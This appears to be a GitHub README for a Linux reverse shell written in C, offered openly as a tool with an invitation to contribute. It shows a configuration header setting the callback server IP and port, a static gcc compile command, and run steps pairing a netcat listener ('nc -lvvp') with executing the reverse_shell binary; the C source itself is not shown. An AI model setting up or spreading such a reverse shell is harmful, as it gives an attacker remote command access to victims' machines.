#### Reverse Shell For Linux Machines!
<h1 align="center">
	<img src="https://img.icons8.com/ios-filled/344/console.png" width="150px"><br>
    Reverse Shell written in C.
</h1>

### Configuration

```c
#pragma once

#define SERVER_IP "127.0.0.1" // Change to your server IP
#define SERVER_PORT 1337 // Changing this is optional
```
### Compiling
```
gcc -static -o reverse_shell main.c
```
### Running
```
[user@linux]$ nc -lvvp 127.0.0.1 1337
-----------------------
[user@linux]$ ./reverse_shell
``` 
### Contributions 🎉
###### If you're interested in contributing simply open a pull request!

